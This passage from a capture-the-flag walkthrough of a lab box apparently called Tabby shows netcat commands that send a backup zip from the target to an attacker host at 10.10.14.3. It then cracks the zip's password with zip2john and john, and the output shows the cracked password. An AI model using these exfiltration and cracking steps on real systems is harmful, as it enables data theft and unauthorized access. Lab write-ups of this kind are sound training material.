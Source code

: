 Within the files directory, there is an backup zip file.

```
ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive 
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs 
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement
```

And using the following "netcat" commands, we can download the .zip" file to our Kali box:

```
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

```
unzip backup.zip 
Archive:  backup.zip
	creating: var/www/html/assets/
 [backup.zip]  var/www/html/favicon.ico password:
 password incorrect--reenter:
 	skipping: var/www/html/favicon.ico  incorrect password
 	creating: var/www/html/files/
 	skipping: var/www/html/index.php  incorrect password
 	skipping: var/www/html/logo.png   incorrect password 
 	skipping: var/www/html/news.php   incorrect password
 	skipping: var/www/html/Readme.txt  incorrect password 
```

We can use "zip2john" and "john" to potentially crack the password

### zip2john
zip2john backup.zip > bkcup-prep.zip

### John 
john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it 		(backup.zip)
1g 0:00:00:02 DONE (2022-01-10) 0.3759g/s 3895Kp/s 3895Kc/s 3895KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session compledted
```
